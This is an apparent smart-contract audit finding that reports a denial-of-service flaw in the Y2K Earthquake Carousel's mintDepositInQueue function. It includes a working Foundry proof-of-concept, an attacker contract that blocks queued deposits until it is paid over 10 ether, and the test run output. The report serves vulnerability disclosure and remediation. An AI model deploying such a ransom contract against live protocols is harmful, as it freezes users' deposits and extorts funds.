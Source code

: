 jprod15

high

# malicious user can break mintDepositInQueue making users loss fund

## Summary
a malicious user can attack function mintDepositInQueue with a Dos making that users that deposit with id 0 loss a funds 
## Vulnerability Detail
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L98

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L117


https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L334-L337

due that this operations is made in a cycle a malicious user can put a address of receiver that no handle erc1155 making reverted

    _mintShares(
            queue[i].receiver,//@audit-issue  can be break if recevier can not mint
                _epochId,
                queue[i].assets - relayerFee
            );
therefore all transaction of mintDepositInQueue will reverte

add this function test in CarouselTest.t.sol

         function test_exploit_Dos_DepositIntoQueueMultiple() public {
                // test multiple deposits into queue
                uint40 _epochBegin = uint40(block.timestamp + 1 days);
                uint40 _epochEnd = uint40(block.timestamp + 2 days);
                uint256 _epochId = 2;
                uint256 _emissions = 100 ether;

                deal(emissionsToken, address(vault), 100 ether, true);
                vault.setEpoch(_epochBegin, _epochEnd, _epochId);
                vault.setEmissions( _epochId, _emissions);



                helperDepositInEpochs(_epochId,USER, true);
                helperDepositInEpochs(_epochId,USER2, true);
                helperDepositInEpochs(_epochId,USER3, true);

                Dos  Dos_contract =  new Dos(ATTACKER);//@audit-info  attacker deploy contract Dos

                vm.startPrank(ATTACKER); 
                IERC20(UNDERLYING).approve(address(vault), relayerFee);
                vault.deposit(0, relayerFee, address(Dos_contract));//@audit-info atacker call deposit with minimun amount  require
                vm.stopPrank();


                helperDepositInEpochs(_epochId,USER4, true);
                helperDepositInEpochs(_epochId,USER5, true);
                helperDepositInEpochs(_epochId,USER6, true);

                assertEq(vault.getDepositQueueLenght(),7);
                
        
                vm.expectRevert();
                // mint deposit in queue
                vault.mintDepositInQueue(_epochId, 7);//@audit-info revert

                deal(address(Dos_contract),11 ether);//@audit-info pay 10 ether to attacker

                assertEq(vault.getDepositQueueLenght(),7);
                
                vault.mintDepositInQueue(_epochId, 7);//@audit-info success

            
            }
this contracts is part of test

        contract Dos {

            address owner;


            constructor(address _owner){
                owner=_owner;

            }


            function onERC1155Received(address operator,address from, uint256 id,uint256  amount,  bytes memory data)external returns (bytes4 response)
            {
                if(address(this).balance > 10 ether)
                {
                return IERC1155Receiver.onERC1155Received.selector;
                }

            }

                fallback() external 
                {

                }

                function trasferToOwner() public
                {
                    require(owner==msg.sender,"");
                    (bool success,)=owner.call{value:address(this).balance}("");
                    require(success);
                }
            
        }
run
forge test -m test_exploit_Dos_DepositIntoQueueMultiple  -vv
the result

      Running 1 test for test/V2/Carousel/CarouselTest.t.sol:CarouselTest
      [PASS] test_exploit_Dos_DepositIntoQueueMultiple() (gas: 1527471)
      Test result: ok. 1 passed; 0 failed; finished in 24.15ms


## Impact
user loss fund
## Code Snippet
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L98

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L117

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L334-L337
## Tool used

Manual Review

## Recommendation
could check at moment of deposit if receiver can handle erc 1555